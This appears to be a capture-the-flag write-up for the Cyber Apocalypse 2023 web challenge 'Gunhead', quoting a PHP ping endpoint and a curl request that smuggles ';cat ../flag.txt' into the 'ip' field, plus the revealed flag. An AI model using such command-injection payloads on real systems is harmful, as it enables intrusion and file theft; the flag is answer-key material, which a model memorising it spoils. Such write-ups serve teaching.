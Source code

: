 # Cyber Apocalypse 2023

## Gunhead

> During Pandora's training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, causing it to become uncontrollable. With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently needs to take it down.
>
> Readme Author: [D13David](https://github.com/D13David)
>
> [`web_gunhead.zip`](web_gunhead.zip)

Tags: _web_

## Solution
When inspecting the source code we can see and enpoint `/ping` that allows us to inject shell commands:

```
public function ping($router)
{
        $jsonBody = json_decode(file_get_contents('php://input'), true);

        if (empty($jsonBody) || !array_key_exists('ip', $jsonBody))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        $pingResult = new ReconModel($jsonBody['ip']);

        return $router->jsonify(['output' => $pingResult->getOutput()]);
}
```

![command](image001.png)

Or by scheduling an curl command:

```
$ curl -X POST -H 'Content-Type: application/json' -d'{"ip":"0.0.0.0;cat ../flag.txt"}'  http://159.65.81.51:30542/api/ping
{"output":"PING 0.0.0.0 (0.0.0.0): 56 data bytes\nHTB{4lw4y5_54n1t1z3_u53r_1nput!!!}"}
```